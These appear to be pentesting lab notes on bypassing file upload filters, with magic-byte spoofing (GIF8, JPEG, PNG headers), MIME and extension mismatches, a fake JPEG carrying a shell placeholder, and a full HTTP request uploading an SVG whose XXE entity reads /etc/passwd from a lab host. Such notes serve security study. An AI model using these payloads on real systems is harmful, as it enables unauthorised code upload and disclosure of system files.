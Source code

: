 so you can trick file upload filters.


# GIF
Many other image types have non-printable bytes for their file signatures, while a `GIF` image starts with ASCII printable bytes (as shown above), so it is the easiest to imitate. Furthermore, as the string `GIF8` is common between both GIF signatures, it is usually enough to imitate a GIF image.
```BASH
echo "GIF8" > text.jpg 
file text.jpg
text.jpg: GIF image data
```

![](Pasted%20image%2020250515173959.png)
We can use a combination of the two methods discussed in this section, which may help us bypass some more robust content filters.

For example, we can try using an `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`, and so on. Similarly, we can attempt other combinations and permutations to try to confuse the web server, and depending on the level of code security, we may be able to bypass various filters.

# example jpeg upload
```
-----------------------------1320432004262132018907848259
Content-Disposition: form-data; name="image"; filename="payload.jpeg"
Content-Type: image/jpeg

ÿØÿà
<SHELL>
```

# PNG
```
-----------------------------324585225029692973191899398072
Content-Disposition: form-data; name="image"; filename="Untitled.png"
Content-Type: image/png

PNG


```
https://github.com/Mehdi0x90/Web_Hacking/blob/main/File%20Upload.md

# svg
```
POST /contact/upload.php HTTP/1.1
Host: inlane.htb:45886
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://inlane.htb:45886/contact/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=--------------------------

-----------------------------6129640274014026624233989589
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
-----------------------------6129640274014026624233989589--

```